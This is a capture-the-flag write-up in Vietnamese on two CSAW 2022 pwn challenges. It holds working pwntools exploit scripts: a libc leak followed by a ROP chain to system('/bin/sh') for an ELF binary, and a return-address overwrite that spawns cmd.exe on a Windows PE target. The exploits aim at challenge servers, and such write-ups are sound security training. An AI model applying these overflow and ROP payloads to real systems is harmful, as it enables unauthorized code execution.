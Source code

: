 # Writeup CSAW CTF Qualification Round 2022
###### tags: `writeup`

---

## ezROP
---
### Analyze

![](https://i.imgur.com/ZIDgOLk.png)

![](https://i.imgur.com/QkILzoG.png)

Đề bài cho một file ELF 64-bit không bị stripped và chỉ có canary là được bật

![](Untitled.png)

Bài này cơ bản chỉ là nhập input sau đó in ra input. Sau khi check một số lỗi cơ bản thì bài này có bug buffer overflow.

Vì bài này cho luôn source nên cũng không cần mở ida để xem. 
### Exploit
Ý tưởng cơ bản ở bài này chỉ là leak libc bằng lỗi bof, sau khi có libc thì chỉ cần build rop chain system('/bin/sh'). Một khởi đầu khá là thú vị. 

```py
from pwn import * 
context.log_level ='debug'
r = process('./ezROP')
#r = remote('pwn.chal.csaw.io',5002)
elf = context.binary = ELF('./ezROP')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi = 0x00000000004015a3
payload =   b'\0'*0x78+ p64(pop_rdi) + p64(0x403FE8) + p64(0x4010A0)   + p64(elf.sym['main']) 

r.sendline(payload)
r.recvuntil(b'!\n')
leak = u64(r.recvline()[:-1].ljust(8,b'\x00'))
log.info('leak: '+hex(leak))
libc.address = leak - libc.sym['puts']
log.success('libc: '+hex(libc.address))
payload = b'\0'*0x78 + p64(pop_rdi) +p64(next(libc.search(b'/bin/sh')))+p64(pop_rdi+1) + p64(libc.sym['system'])
r.sendline(payload)
r.interactive()
```
## BabyWindow
---
Đây là một câu baby pwn về window(file PE32+), thực ra đây là lần đầu tiên mình exploit một file PE32+, từ trước đến giờ chủ yếu mình làm reverse file PE32+ hoặc PE32. 
Set up environment ở local cũng khiến mình khá là loay hoay. 

Cũng không cần phải mở ida lên để reverse vì bài này cho source code sẵn, thì giống như file pwn ELF thì bài này cũng có bug khá là cơ bản, bug `gets` nằm ở function vuln. Với 1 người chơi pwn thì ai cũng biết bug này dùng để làm gì :lol_face:

Ở bài này thì ta chỉ cần ghi đè return address về hàm Pwn trong file BabyWindowsLib.c, ở hàm đó có sẵn `WinExec("cmd.exe", SW_SHOWDEFAULT);`, tương tự với `system('/bin/sh')` bên linux. 

```py
from pwn import * 

p = remote('win.chal.csaw.io', 7777) 

payload = b"A"*512
payload += p32(0x62101661)

p.send(payload)

p.interactive()
```
Một bài khá là hay ho(trừ việc setup docker :sadge_pepe:)






